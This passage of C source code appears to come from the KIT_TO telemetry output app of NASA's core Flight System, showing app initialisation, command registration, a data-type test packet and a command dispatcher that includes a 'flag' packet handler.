   CFE_SB_SendMsg((CFE_SB_Msg_t *) &KitToFlagPkt);

} /* End KIT_TO_SendFlagPkt() */


/******************************************************************************
** Function: InitApp
**
*/
static int32 InitApp(void)
{
   int32 Status = CFE_SUCCESS;

   CFE_EVS_SendEvent(KIT_TO_INIT_DEBUG_EID, KIT_TO_INIT_EVS_TYPE, "KIT_TO_InitApp() Entry\n");

   /*
   ** Initialize 'entity' objects
   */

   PKTTBL_Constructor(PKTTBL_OBJ, PKTMGR_GetTblPtr, PKTMGR_LoadTbl, PKTMGR_LoadTblEntry);
   PKTMGR_Constructor(PKTMGR_OBJ, PKTMGR_PIPE_NAME, PKTMGR_PIPE_DEPTH);

   /*
   ** Initialize application managers
   */

   CFE_SB_CreatePipe(&KitTo.CmdPipe, KIT_TO_CMD_PIPE_DEPTH, KIT_TO_CMD_PIPE_NAME);
   CFE_SB_Subscribe(KIT_TO_CMD_MID, KitTo.CmdPipe);
   CFE_SB_Subscribe(KIT_TO_SEND_HK_MID, KitTo.CmdPipe);
   CFE_SB_Subscribe(KIT_TO_SEND_FLAG_MID, KitTo.CmdPipe);
   
   CFE_EVS_SendEvent(KIT_TO_INIT_DEBUG_EID, KIT_TO_INIT_EVS_TYPE, "KIT_TO_InitApp() Before CMDMGR calls\n");
   CMDMGR_Constructor(CMDMGR_OBJ);
   CMDMGR_RegisterFunc(CMDMGR_OBJ, CMDMGR_NOOP_CMD_FC,            NULL,       KIT_TO_NoOpCmd,            0);
   CMDMGR_RegisterFunc(CMDMGR_OBJ, CMDMGR_RESET_CMD_FC,           NULL,       KIT_TO_ResetAppCmd,        0);

   CMDMGR_RegisterFunc(CMDMGR_OBJ, KIT_TO_PKT_TBL_LOAD_CMD_FC,    TBLMGR_OBJ, TBLMGR_LoadTblCmd,         TBLMGR_LOAD_TBL_CMD_DATA_LEN);
   CMDMGR_RegisterFunc(CMDMGR_OBJ, KIT_TO_PKT_TBL_DUMP_CMD_FC,    TBLMGR_OBJ, TBLMGR_DumpTblCmd,         TBLMGR_DUMP_TBL_CMD_DATA_LEN);

   CMDMGR_RegisterFunc(CMDMGR_OBJ, KIT_TO_ADD_PKT_CMD_FC,         PKTMGR_OBJ, PKTMGR_AddPktCmd,          PKKTMGR_ADD_PKT_CMD_DATA_LEN);
   CMDMGR_RegisterFunc(CMDMGR_OBJ, KIT_TO_REMOVE_PKT_CMD_FC,      PKTMGR_OBJ, PKTMGR_RemovePktCmd,       PKKTMGR_REMOVE_PKT_CMD_DATA_LEN);
   CMDMGR_RegisterFunc(CMDMGR_OBJ, KIT_TO_REMOVE_ALL_PKTS_CMD_FC, PKTMGR_OBJ, PKTMGR_RemoveAllPktsCmd,   0);
   CMDMGR_RegisterFunc(CMDMGR_OBJ, KIT_TO_ENABLE_OUTPUT_CMD_FC,   PKTMGR_OBJ, PKTMGR_EnableOutputCmd,    PKKTMGR_ENABLE_OUTPUT_CMD_DATA_LEN);
   CMDMGR_RegisterFunc(CMDMGR_OBJ, KIT_TO_SEND_DATA_TYPES_CMD_FC, &KitTo,     KIT_TO_SendDataTypeTlmCmd, 0);

   CFE_EVS_SendEvent(KIT_TO_INIT_DEBUG_EID, KIT_TO_INIT_EVS_TYPE, "KIT_TO_InitApp() Before TBLMGR calls\n");
   TBLMGR_Constructor(TBLMGR_OBJ);
   TBLMGR_RegisterTblWithDef(TBLMGR_OBJ, PKTTBL_LoadCmd, PKTTBL_DumpCmd, KIT_TO_DEF_PKTTBL_FILE_NAME);

   CFE_SB_InitMsg(&KitToHkPkt, KIT_TO_HK_TLM_MID, KIT_TO_TLM_HK_LEN, TRUE);
   CFE_SB_InitMsg(&KitToFlagPkt, KIT_TO_FLAG_TLM_MID, KIT_TO_TLM_FLAG_LEN, TRUE);
   InitDataTypePkt();

   /*
   ** Application startup event message
   */

   Status = CFE_EVS_SendEvent(KIT_TO_INIT_APP_INFO_EID,
                              CFE_EVS_INFORMATION,
                              "KIT_TO Initialized. Version %d.%d.%d.%d",
                              KIT_TO_MAJOR_VERSION,
                              KIT_TO_MINOR_VERSION,
                              KIT_TO_REVISION,
                              KIT_TO_MISSION_REV);

   return(Status);

} /* End of InitApp() */


/******************************************************************************
** Function: InitDataTypePkt
**
*/
static void InitDataTypePkt(void)
{

   int16  i;
   char   StringVariable[10] = "ABCDEFGHIJ";

   CFE_SB_InitMsg(&ToDataTypePkt, KIT_TO_DATA_TYPE_TLM_MID, KIT_TO_TLM_DATA_TYPE_LEN, TRUE);

   ToDataTypePkt.synch = 0x6969;
   #if 0
      ToDataTypePkt.bit1    = 1;
      ToDataTypePkt.bit2    = 0;
      ToDataTypePkt.bit34   = 2;
      ToDataTypePkt.bit56   = 3;
      ToDataTypePkt.bit78   = 1;
      ToDataTypePkt.nibble1 = 0xA;
      ToDataTypePkt.nibble2 = 0x4;
   #endif
      ToDataTypePkt.bl1 = FALSE;
      ToDataTypePkt.bl2 = TRUE;
      ToDataTypePkt.b1  = 16;
      ToDataTypePkt.b2  = 127;
      ToDataTypePkt.b3  = 0x7F;
      ToDataTypePkt.b4  = 0x45;
      ToDataTypePkt.w1  = 0x2468;
      ToDataTypePkt.w2  = 0x7FFF;
      ToDataTypePkt.dw1 = 0x12345678;
      ToDataTypePkt.dw2 = 0x87654321;
      ToDataTypePkt.f1  = 90.01;
      ToDataTypePkt.f2  = .0000045;
      ToDataTypePkt.df1 = 99.9;
      ToDataTypePkt.df2 = .4444;

   for (i=0; i < 10; i++) ToDataTypePkt.str[i] = StringVariable[i];

} /* End InitDataTypePkt() */

/******************************************************************************
** Function: ProcessCommands
**
*/
static void ProcessCommands(void)
{

   int32           Status;
   CFE_SB_Msg_t*   CmdMsgPtr;
   CFE_SB_MsgId_t  MsgId;

   Status = CFE_SB_RcvMsg(&CmdMsgPtr, KitTo.CmdPipe, CFE_SB_POLL);

   if (Status == CFE_SUCCESS)
   {

      MsgId = CFE_SB_GetMsgId(CmdMsgPtr);

      switch (MsgId)
      {
         case KIT_TO_CMD_MID:
            CMDMGR_DispatchFunc(CMDMGR_OBJ, CmdMsgPtr);
            break;

         case KIT_TO_SEND_HK_MID:
            KIT_TO_SendHousekeepingPkt();
            break;

     case KIT_TO_SEND_FLAG_MID:
        KIT_TO_SendFlagPkt();
        break;

         default:
            CFE_EVS_SendEvent(KIT_TO_INVALID_MID_ERR_EID, CFE_EVS_ERROR,
                              "Received invalid command packet,MID = 0x%4X",MsgId);

            break;

      } /* End Msgid switch */

   } /* End if SB received a packet */

} /* End ProcessCommands() */


/* end of file */
```
